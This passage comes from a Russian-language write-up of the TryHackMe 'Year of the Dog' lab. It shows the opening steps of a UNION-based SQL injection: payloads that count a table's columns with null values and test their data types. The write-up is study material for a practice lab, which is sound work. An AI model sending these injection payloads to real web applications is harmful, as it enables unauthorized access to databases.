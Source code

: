 Для начала узнаем количество столбцов в таблице подставляя значения null.
```
405'union+select+null-- -
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/6.png)

Видим, что в таблице больше столбцов, подставляем еще одно значение null.
```
405'union+select+null,null-- -
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/7.png)

Затем проверяем какой тип данных могут принимать столбцы.
```
405'union+select+'a','a'-- -
```

